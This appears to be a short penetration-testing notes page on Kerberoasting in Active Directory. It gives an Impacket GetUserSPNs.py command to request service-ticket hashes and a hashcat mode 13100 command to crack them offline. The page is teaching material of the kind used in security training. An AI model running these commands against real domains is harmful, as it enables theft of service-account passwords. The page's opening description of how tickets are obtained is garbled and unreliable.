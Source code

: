 # 🐩 Kerberoasting

Kerberoasting is a type of attack used in the context of Microsoft's Kerberos authentication protocol. In this attack, an attacker extracts the Ticket Granting Service (TGS) ticket for a service account from the Kerberos Authentication Service (AS) ticket, and then cracks the password offline using a tool like `tgsrepcrack` or `kerberoast`

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast" %}

after you have gained initial access to a target network and have escal your privileges to a domain user account At this point, you can start looking for service accounts that may be vulnerable to Kerberoasting

```
GetUserSPNs.py <Domain/Username:password> -dc-ip <ip of DC> -request
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After Dumping the Hashes, we will use Hashcat for cracking the hashes.

```
hashcat -m 13100 hash.txt wordlist.txt
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
